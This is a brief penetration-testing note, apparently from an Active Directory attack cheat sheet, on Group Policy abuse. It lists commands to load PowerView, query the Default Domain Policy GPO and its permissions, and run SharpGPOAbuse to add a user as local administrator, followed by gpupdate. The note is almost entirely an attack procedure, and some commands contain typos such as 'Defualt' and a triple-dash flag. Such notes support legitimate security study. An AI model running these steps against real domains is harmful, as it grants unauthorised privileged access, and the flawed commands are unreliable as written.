

# GPO

Initialize powerview

```
./powerview.ps1
```

Then check for Default Domain Policy:

```
Get-GPO -Name "Defualt Domain Policy"
```

Now after getting Guid to check for permissions:

```
Get-GPPermission -Guid <id> -TargetType User -TargetName <account name>
```

<figure><figcaption></figcaption></figure>

Then use SharpGPOAbuse:

```
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount aditya ---GPOName "Default Domain Policy"
```

Then:

```
gpupdate /force
```
